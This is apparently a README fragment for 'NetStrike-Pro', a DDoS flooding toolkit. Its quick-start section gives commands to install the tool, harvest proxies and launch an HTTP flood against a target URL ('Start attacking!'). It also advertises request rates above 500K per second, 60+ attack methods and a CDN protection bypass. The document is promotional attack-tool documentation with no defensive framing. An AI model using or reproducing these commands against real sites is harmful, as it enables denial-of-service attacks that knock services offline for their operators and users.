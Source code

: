 </td>
</tr>
</table>

### 🚀 Quick Start

#### Method 1: One-Click Installation (Recommended) ⭐

```bash
# 1. Clone the project
git clone https://github.com/Hacker0458/NetStrike-Pro.git
cd NetStrike-Pro

# 2. One-click install all dependencies (3-5 min)
cd legacy
sudo ./Nodejs.sh

# 3. Get proxies (2-3 min)
node github_list.js

# 4. Start attacking!
node floodernew.js GET "https://target.com" 120 16 90 proxies_all.txt --debug
```

**That's it! 🎉 From installation to attack in 10 minutes!**

### 📊 Performance Comparison

<div align="center">

| Tool | QPS | Bypass | Automation | Rating |
|:----:|:---:|:------:|:---------:|:------:|
| **main.js** | **500K+** | ⭐⭐⭐⭐⭐ | ✅ 100% | ⭐⭐⭐⭐⭐ |
| **floodernew.js** | **150K+** | ⭐⭐⭐⭐ | ✅ 100% | ⭐⭐⭐⭐⭐ |
| **tls.js** | 25K+ | ⭐⭐⭐⭐⭐ | ✅ 100% | ⭐⭐⭐⭐⭐ |
| **MHDDoS** | 50K+ | ⭐⭐ | ✅ 100% | ⭐⭐⭐⭐ |
| Others | <10K | ❌ | ❌ | ⭐⭐ |

</div>

### 🤝 Contributing

We **warmly welcome** all forms of contributions! 🎉

See [CONTRIBUTING.md](CONTRIBUTING.md) for details.

### 🗺️ Roadmap

#### ✅ Completed (v2.0)
- ✅ 60+ attack methods
- ✅ CDNfly bypass (7 types)
- ✅ 500K+ QPS performance
- ✅ Complete documentation
